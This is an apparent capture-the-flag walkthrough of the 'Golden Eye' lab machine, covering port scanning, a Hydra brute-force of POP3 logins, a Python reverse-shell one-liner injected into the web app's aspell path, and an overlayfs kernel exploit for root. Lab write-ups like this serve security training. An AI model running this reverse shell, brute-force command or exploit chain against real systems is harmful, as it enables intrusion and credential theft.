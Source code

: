 # Golden Eye

This machine tells an intriguing story from the world of James Bond. As we enumerate and explore its contents, the narrative becomes increasingly clear.

Using rustscan to enumerate open ports reveals four services: SMTP on port 25, an HTTP server on port 80, and POP3 running on ports 55006 and 55007. 

`rustscan -a 10.10.141.140 -- -sC  -sV` 

```php
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Nmap? More like slowmap.🐢

[~] The config file is expected to be at "/home/kali/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.141.140:25
Open 10.10.141.140:80
Open 10.10.141.140:55006
Open 10.10.141.140:55007
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

[~] Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-09 11:46 IST
PORT      STATE SERVICE  REASON         VERSION
25/tcp    open  smtp     syn-ack ttl 60 Postfix smtpd
|_ssl-date: TLS randomness does not represent time
|_smtp-commands: ubuntu, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN
80/tcp    open  http     syn-ack ttl 60 Apache httpd 2.4.7 ((Ubuntu))
|_http-title: GoldenEye Primary Admin Server
|_http-server-header: Apache/2.4.7 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
55006/tcp open  ssl/pop3 syn-ack ttl 60 Dovecot pop3d
|_pop3-capabilities: SASL(PLAIN) UIDL USER TOP PIPELINING RESP-CODES AUTH-RESP-CODE CAPA
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server/organizationalUnitName=localhost/emailAddress=root@localhost
| Issuer: commonName=localhost/organizationName=Dovecot mail server/organizationalUnitName=localhost/emailAddress=root@localhost
55007/tcp open  pop3     syn-ack ttl 60 Dovecot pop3d
|_pop3-capabilities: PIPELINING STLS TOP USER SASL(PLAIN) UIDL RESP-CODES AUTH-RESP-CODE CAPA
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server/organizationalUnitName=localhost/emailAddress=root@localhost
| Issuer: commonName=localhost/organizationName=Dovecot mail server/organizationalUnitName=localhost/emailAddress=root@localhost
```

The webpage displays a *TOP SECRET*  landing page that leads to a login screen. 

![image.png](image.png)

Examining the source code reveals a script containing two users—Boris and Natalya—along with an encoded password.

![image.png](image%201.png)

We decode the password using cyberchef.

![image.png](image%202.png)

We use the username Boris and the decoded password to login to the page `/sev-home/` .

![image.png](image%203.png)

The page source code mentions the same two users.

![image.png](80396a54-16c9-4bc1-aeef-b4f92b9fd433.png)

Examining the other services, we discover that POP3 can be used to read emails after authentication with valid credentials. Here are the common commands used.

![image.png](image%204.png)

We use `telnet` to connect and attempt authentication, but it fails. While the username is correct, we still need to find the password.

![image.png](053e660b-5c70-4099-9bc7-4138837b1fc0.png)

We use Hydra to brute-force the password. When the rockyou.txt wordlist proved too time-consuming, we opted for a smaller wordlist based on another walkthrough.

`hydra -l boris -P /usr/share/set/src/fasttrack/wordlist.txt -s 55007 -f -V 10.10.141.140 pop3 -t 64`

![image.png](image%205.png)

Using the password we authenticate and start reading the emails.

![image.png](2a9485df-4076-4780-aae3-d6ce0abd556b.png)

First one is from root.

![image.png](image%206.png)

Second one from Natalya saying she can break his code.

![image.png](image%207.png)

Third one is rather interesting. It’s from a syndicate. Well well we have a mole among us. 

![image.png](image%208.png)

Next we find Natalya’s password.

![image.png](image%209.png)

The first email is from root, instructing her to stop breaking Boris's code and warning her about the Janus syndicate—the same group Boris has been communicating with. 

![image.png](image%2010.png)

Second one is credentials for a new user `xenia` . Xenia is the new student sent by the syndicate who was verified by Boris.  The story is getting more clear.

![image.png](image%2011.png)

To access the new URL we need to add it to `/etc/hosts` file.

`sudo nano /etc/hosts` 

![image.png](image%2012.png)

We login to the URL provided using Xenia’s credentials and access the messages.

My profile → Messages

![image.png](image%2013.png)

The message reveals another user `doak` . Using hydra we find his password too.

![image.png](image%2014.png)

Logging in and reading the email, he has left a mail for James Bond containing his credentials for the training site.

![image.png](image%2015.png)

Logging in using the credentials and access his private files. It contains a secret text file saying he has the admin credentials.

My Profile → My Private Files

![image.png](image%2016.png)

Visiting the given page displays an image. After downloading it, we use `exiftool` to inspect it for any hidden metadata or embedded information.

![image.png](image%2017.png)

![image.png](image%2018.png)

There is some `base64` encoded message in image description. Decoding it gives us the admin credentials.

![image.png](image%2019.png)

The room hints us about a vulnerability with aspell spell checker we can exploit. We search for aspell in the search box in left section.

![image.png](e13eeb3a-544a-4a61-837f-7d71bcf3148e.png)

Here there is a “Path to aspell” with commands. We rewrite it with a reverse shell command that uses python and save it.

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.17.17.47",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Next we change the Spell engine to PSpellShell in text editor plugin settings and save it. 

![image.png](image%2020.png)

Next to create a new page we follow the below path.

My profile → Blogs → Add a new entry

![image.png](image%2021.png)

Setup  a netcat listener on the specified port and use the spell checker in the editor, which in turn will execute the command we injected in path to aspell.

![image.png](image%2022.png)

We capture a reverse shell to the machine.

![image.png](image%2023.png)

Now we download the `linuxprivchecker`  from the URL provided and send it to the victim machine by setting up a python server in the folder containing the file.

`https://gist.github.com/sh1n0b1/e2e1a5f63fbec3706123`

![image.png](image%2024.png)

Use `wget` to download the file into the victim machine’s `/tmp` folder. Running it and looking at the installed file we can see C compilation tool `cc` in the list.

![image.png](image%2025.png)

The room hints us that the machine with a kernel version of 3.13.0-32-generic is vulnerable to `overlayfs` exploit and provide us with the URL to the exploit. The exploit provided uses `gcc` , we need to change it to `cc` in the code and send it to the victim machine like we did before. Compile it using `cc` and executing it gets us the root access.

`https://www.exploit-db.com/exploits/37292`

![image.png](image%2026.png)

The flag is hidden in root folder.

![image.png](image%2027.png)